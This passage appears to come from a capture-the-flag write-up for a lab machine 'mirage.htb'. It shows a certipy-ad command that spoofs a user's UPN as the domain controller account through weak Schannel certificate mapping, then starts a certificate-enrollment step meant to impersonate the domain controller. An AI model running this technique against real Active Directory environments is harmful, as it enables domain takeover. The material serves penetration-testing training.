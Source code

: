 ![UPN-Manipulation-Verification](assets/img/UPN-Manipulation-Verification.png)

> We can confirm everything is set to manipulate the `UPN`, because of **weak certificate mapping (Schannel-based)**

```bash
certipy-ad account update \
   -user 'mark.bbond' \
   -upn 'dc01$@mirage.htb' \
   -u 'mirage-service$@mirage.htb' \
   -k -no-pass \
   -dc-ip 10.10.11.78 \
   -target dc01.mirage.htb
```

![Successfully-Updated-the-UPN](assets/img/Successfully-Updated-the-UPN.png)

> ✅ UPN spoofed > `mark.bbond` now maps to `dc01$`.

### 🧾 2. Certificate Enrollment

🎯 **Objective**  
Request a certificate using the **spoofed** `UPN` (`dc01$@mirage.htb`) to **impersonate the domain controller**.
